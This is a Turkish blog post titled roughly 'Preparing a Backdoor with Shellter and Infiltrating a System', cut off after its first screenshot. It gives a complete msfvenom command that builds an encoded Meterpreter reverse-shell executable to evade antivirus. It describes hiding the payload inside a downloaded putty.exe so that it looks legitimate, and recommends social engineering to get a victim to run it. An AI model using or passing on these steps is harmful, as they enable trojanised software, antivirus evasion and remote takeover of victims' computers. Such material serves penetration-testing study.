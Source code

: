 ```yaml
---
layout: post
title: Linux
categories:
- blog
---
```

---
layout: post
title: Shellter ile Backdoor Hazırlama ve  Sisteme Sızma
date: 2017-01-12 14:42
author: ahmetgurel
comments: true
categories: [backdoor, backdoor hazırlama, Genel Güvenlik, msfvenom, msfvenom backdoor, shellter, Shellter ile Backdoor Hazırlama ve Sisteme Sızma, Siber Güvenlik, sisteme sızma, Sızma Testi Araçları (Pentest Tools), windows hack]
---
Merhaba,

Bu yazımda bir sisteme sızmak için kullanılan güzel bir yöntemden bahsedeceğim.Sistemde yazılımsal açıklıklardan yararlanmak yerine zararlı bir dosya ile sisteme sızabilirsiniz.Bu zararlı dosyayı bir çok farklı yolla oluşturabilirsiniz.Bilginiz ölçüsünde kendiniz yazabilirsiniz,msfvenom ile kendiniz bir zararlı uygulama oluşturabilirsiniz ya da her hangi bir uygulamaya payload yerleştirebilirsiniz.

Bugün biz bunu yapacağız windowsta ssh bağlantısı için kullanılan Putty.exe programına Payload yerleştirip bununla bir sisteme sızmayı anlatacağım.Bunun dışında msfvenom ile oluşturduğunuz uygulama -e parametresi ile encode ederek antivirüsleri geçmesini sağlanabiliyor fakat genelde bilindiği için bu encode ve payloadlar tamamen bypass etmek zor.
<pre class="lang:default decode:true ">msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.237.128 LPORT=4444 -f exe -o /root/Desktop/zararli.exe  -e x86/shikata_ga_nai -i 20</pre>
Yukarıdaki msfvenom komutu ile haberleşeceği ip ve portu belirterek zararlı.exe  oluşturarak shikata_ga_nai ile 20 kere encode ettik.Fakat biz bu yazıda bu şekilde yapmayacağız bu ne kadar encode etsekde bir çok antivirüs hem yakalıyor hemde oluşturduğumu zararlı sadece siyah bir cmd ekranı açıyor buda kurbanın hemen kapatması ya da şüphelenerek silmesi anlamına gelmektedir.Bunun için putty.exe seçtik internettten putty.exe yi indirerek ona kendi payloadımızı yerleştireceğiz.Bu aşamadan sonra Sosyal Mühendislik ve diğer yolları kullanarak kurbanın uygulamayı çalıştırmasını sağlamalıyız.

Şimdi gelelim putty.exe ye Payloadımızı yerleştirmeye bunu yine msfvenom ile yapabilmekteyiz.Ya da bunun için başka bir alternatif olan Shellter uygulaması ile yapabilmekteyiz.Shellter windowsda çalışan bir uygulamadır fakat wine ile Linuxta çalıştırılmaktadır.<a href="https://www.shellterproject.com/">https://www.shellterproject.com/</a> adresinden uygulamayı indirebilirsiniz.<a href="http://www.putty.org/">http://www.putty.org/</a> adresindende putty.exe uygulamasını indirebilirsiniz.

Daha sonra aşağıdaki ekran görüntülerindeki gibi yerleştirilecek payload encoder haberleşilecel ip ve port bilgilerini shellter a girerek putty.exe artık bizim hazırladığımız backdoorumuz olacaktır.Her adım ekran görüntülerinde mevcuttur.

<a href="http://www.gurelahmet.com/wp-content/uploads/2017/01/WindowsXP-2017-01-12-14-20-22.png"><img class="alignnone size-large wp-image-658" src="http://www.gurelahmet.com/wp-content/uploads/2017/01/WindowsXP-2017-01-12-14-20-22-1024x576.png" alt="" width="976" height="549" /></a>

&nbsp;
